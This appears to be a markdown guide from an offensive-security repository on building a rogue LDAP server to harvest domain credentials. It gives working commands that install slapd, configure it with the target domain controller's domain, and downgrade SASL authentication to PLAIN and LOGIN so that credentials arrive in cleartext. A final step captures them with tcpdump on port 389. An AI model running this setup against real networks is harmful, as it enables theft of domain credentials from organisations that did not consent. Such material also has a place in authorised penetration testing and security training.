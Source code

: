 #  Creating a Rogue LDAP Server

Some of the techniques requires you to create a rogue LDAP server. Below is a short guide on setting up.

## Guide

1. Install OpenLDAP
```bash
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

2. Configure your LDAP server
```bash
sudo dpkg-reconfigure -p low slapd
```
- Following the steps below to set up the slapd settings:
  - Make sure to press <No> when requested if you want to skip server configuration. Choose No.
  - For the DNS domain name, you want to provide our target domain, which is your DC main domain.
  - Use this same name for the Organisation name as well.
  - Provide any Administrator password, you may use ```12345```.
  - Select MDB as the LDAP database to use. Choose MDB.
  - For the last two options, ensure the database is not removed when purged. Choose No.
  - Move old database files before a new one is created. Choose Yes.

3. Before using the rogue LDAP server, we need to make it vulnerable by downgrading the supported authentication mechanisms. We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods.
- We need to create a new ldif file and called with the following content:
```bash
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```
4. Now we can use the ldif file to patch our LDAP server using the following:
``` bash
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```
  
5. Verify the LDAP server config
```bash
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```
  
6. Capture LDAP credential
``` bash
sudo tcpdump -SX -i eth0 tcp port 389
```
Note: You may have to change eth0 to whichever interface on your machine
